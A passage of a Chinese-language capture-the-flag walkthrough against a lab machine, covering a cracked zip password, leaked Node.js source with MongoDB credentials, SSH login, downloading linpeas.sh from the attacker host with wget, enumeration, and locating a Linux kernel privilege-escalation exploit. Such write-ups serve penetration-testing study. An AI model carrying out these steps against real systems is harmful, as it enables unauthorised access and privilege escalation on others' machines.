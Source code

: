 
PASSWORD FOUND!!!!: pw == magicword
成功获得密码！

unzip dayu.zip
magicword


7、源码审计

https://www.runoob.com/nodejs/nodejs-mongodb.html

发现这是www站目录源码信息泄露，存在app.js！

App.js 是一个轻量级的 JavaScript UI 库，用来创建移动的 Web 应用，应用的外观跟原生的应用相同，性能也近乎一致。

---------------------
const express     = require('express');
const session     = require('express-session');
const bodyParser  = require('body-parser');
const crypto      = require('crypto');
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const path        = require("path");
const spawn        = require('child_process').spawn;
const app         = express();
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';

---------------------
获取到了mongodb信息！！


8、内部信息枚举

ssh mark@192.168.253.176
5AYRft73VtFpc84k
成功登录！！

python -m SimpleHTTPServer 8081
wget http://192.168.253.138:8081/linpeas.sh
chmod +x linpeas.sh

1）Linux version 4.4.0-93-generic
2）Sudo version 1.8.16
3）mongodb   1288  0.6 11.6 281956 88380
127.0.0.1:27017
4）uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1002(admin)


9、提权

1）内核提权

searchsploit Linux 4.4.0
Linux Kernel < 4.4.0-116
locate linux/local/44298.c
cp /usr/share/exploitdb/exploits/linux/local/44298.c .
